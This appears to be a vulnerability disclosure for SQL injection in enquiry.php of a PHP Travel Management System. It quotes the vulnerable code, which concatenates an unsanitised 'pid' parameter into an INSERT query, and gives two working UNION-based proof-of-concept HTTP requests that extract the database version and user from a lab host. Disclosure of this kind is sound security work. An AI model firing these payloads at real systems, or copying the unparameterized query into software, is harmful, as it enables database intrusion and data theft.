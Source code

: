 # Travel Management System has sql injection in enquiry.php



## supplier



https://code-projects.org/travel-management-system-using-php-source-code/



## Vulnerability file



/enquiry.php

## describe



Due to the lack of purification or parameterization of PID parameters, attackers can inject malicious SQL code to manipulate database queries. By utilizing the SQL injection technique of UNION query, attackers can use functions such as UNION to directly query the fields required by the database. This can be used to confirm the existence of vulnerabilities and potentially extract sensitive information from the database.

## **Code analysis**

```
<?php
if(isset($_POST["sbmt"]))
{
	$cn=makeconnection();
	$s="insert into enquiry(Packageid,Name,Gender,Mobileno,Email,NoofDays,Child,Adults,Message,Statusfield) values('" . $_REQUEST["pid"] ."','" . $_POST["t1"] ."','" . $_POST["r1"] ."','" . $_POST["t2"] ."','" . $_POST["t3"] ."','" . $_POST["t4"] ."','" . $_POST["t5"] ."','" . $_POST["t6"] ."','" . $_POST["t7"] ."','Pending')";	
	
	
		mysqli_query($cn,$s);
	
	echo "<script>alert('Record Save');</script>";
}
?>
```

## POC1

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive
```

[![image-20250104133254893](https://github.com/Huandtx/cve/raw/main/cve/Travel%20Management%20System/image-20250104133254893.png)

## POC2

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive


```

[![image-20250104133602150](https://github.com/Huandtx/cve/raw/main/cve/Travel%20Management%20System/image-20250104133602150.png)

![image-20250104133733397](https://github.com/Huandtx/cve/raw/main/cve/Travel%20Management%20System/image-20250104133733397.png)
